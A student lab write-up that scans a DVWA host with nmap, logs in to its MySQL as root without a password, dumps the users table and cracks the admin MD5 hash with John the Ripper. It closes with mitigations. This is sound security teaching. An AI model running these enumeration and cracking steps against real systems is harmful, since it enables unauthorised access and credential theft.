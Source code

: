 # Lab 2: Cracking Weak Password Hashes & Exploiting Poor Authentication

*Time Allocated: 3 Hours  
Total Marks: 15* 

## OBJECTIVES
1. Find and exploit weak crypto in database login and password storage.
2. Do offline cracking of password hashes found in the database.
3. Learn from real-world crypto mistakes and suggest better ways.
4. Write a report in GitHub (Markdown) and show a short demo.

---

## LAB TASK

### 1. Service Enumeration and Initial Access

To begin, we perform an Nmap scan to identify open ports on the target system:

```bash
nmap -sS -sV -p- 192.168.100.131
```

> This scan reveals that **MySQL is running on port 3306**, indicating that the server is potentially accessible.

![nmap scan result](Screenshot/nmap-scan.png)

We attempt to connect to the MySQL server using:

```bash
mysql -h 192.168.100.131
```

This results in a connection error:

![mysql error](Screenshot/mysql_error.png)

**Why does this happen?**  
The error occurs because the **MySQL server enforces SSL/TLS**, but the default client does not support or negotiate the required encryption protocol.

**How to fix it?**  
We bypass the SSL requirement using the following command:

```bash
mysql -h 192.168.100.131 -u root --ssl=off
```

> ⚠️ By disabling SSL, the connection is successful but **not encrypted**, meaning credentials are exposed during transmission.

![successful mysql connection](Screenshot/mysql-success.png)

---

### 2. User Enumeration and Weak Authentication

After successfully accessing the MySQL server, we begin database enumeration:

```bash
show databases;
```

![show databases](Screenshot/show-databases.png)


then we will need to get into mysql databases to look wether there is or isn't password of the user. Use :

```bash
use mysql;
```

then show the mysql tables. Use :


```bash
show tables;
```


![alt text](Screenshot/show-tables-mysql.png)

so now we can show user,host and password using:


```bash
select user,host,password from user;
```


![alt text](Screenshot/user-host-password.png)

*this shows that there are no passsword for these user*

## ⚠️ QUESTION:

**- Is accessing a database with no password a cryptographic failure?** 

*yes because Cryptographic systems rely on secure key-based access, such as passwords or certificates, to prove identity.*


**- How does this violate secure cryptographic authentication principles??** 

*It breaks authentication because there’s no way to verify who’s connecting. Without a password or encryption, anyone can access the system without proving their identity.*



**NOW** let's  switch to the vulnerable `dvwa` database:

```bash
use dvwa;
```

![use dvwa](Screenshot/use-dvwa.png)

List tables in the selected database:

```bash
show tables;
```

![show tables](Screenshot/show-tables.png)

Inspect the `users` table to find usernames and password hashes:

```bash
select * from users;
```

![user table](Screenshot/users-database.png)

From the output, we identify a **hashed password for the `admin` user**:

```text
5f4dcc3b5aa765d61d8327deb882cf99
```

---



### 3. Hash Type Identification

We identify the hash type using the tool `hash-identifier`:

```bash
hash-identifier
```

Enter the hash and observe the result:

![hash identification](Screenshot/hash-id.png)  
![identified result](Screenshot/identifier-result.png)

> The tool identifies it as **MD5**, a widely used but insecure hashing algorithm.

---


## ⚠️ QUESTION:

**-  What cryptographic weaknesses exist in this hashing method?** 

*The hash uses MD5, which is outdated, fast to crack, not salted, and vulnerable to attacks. It's easy for attackers to reverse it using tools like John the Ripper.*


### 4. Cracking the Password

We create a file to store the hash:

```bash
echo "5f4dcc3b5aa765d61d8327deb882cf99" > hash.txt
```

![hash file](Screenshot/hash-txt.png)

Use **John the Ripper** to crack it with the popular RockYou wordlist:

```bash
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![password cracked](Screenshot/pass-crack.png)

Finally, view the cracked password:

```bash
cat ~/.john/john.pot
```


![john pot output](Screenshot/john-pot.png)

> ✅ The password for the `admin` user is revealed to be: **password**

---

### 5. Cryptographic Analysis and Mitigation

- **Weakness 1: MD5 Hashes** — MD5 is outdated and fast to compute, making it vulnerable to brute-force and rainbow table attacks.
- **Weakness 2: Unencrypted Connection** — Disabling SSL for MySQL connections exposes login credentials to sniffing attacks.
- **Weakness 3: Weak Password** — Simple passwords like `password` are trivial to crack and should never be used.

**Recommendations:**
- Use stronger hashing algorithms like **bcrypt**, **scrypt**, or **Argon2**.
- Always enforce **TLS/SSL** for database connections.
- Enforce **strong password policies** and implement **multi-factor authentication**.

---

## Conclusion

This lab demonstrated how **weak password hashes, poor authentication, and lack of encryption** can be exploited by attackers. By identifying and cracking a weak MD5 hash and bypassing SSL requirements, we successfully extracted sensitive credentials. This highlights the importance of adopting **modern cryptographic standards** and **secure coding practices** to protect systems from real-world threats.